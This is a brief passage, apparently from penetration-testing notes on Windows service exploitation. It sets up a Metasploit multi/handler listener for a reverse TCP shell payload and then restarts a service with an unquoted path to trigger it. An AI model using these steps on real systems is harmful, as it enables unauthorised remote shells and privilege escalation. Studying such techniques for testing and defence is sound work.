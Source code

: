**Setup Meterpreter listner**

```bash
$ use exploit/multi/handler
# Set options (LHOST,LPORT)
$ set payload windows/x64/shell_reverse_tcp
$ run
```

**Restart service**

```powershell
$ sc start <service>
# Example
$ sc start uquotedsvc
```

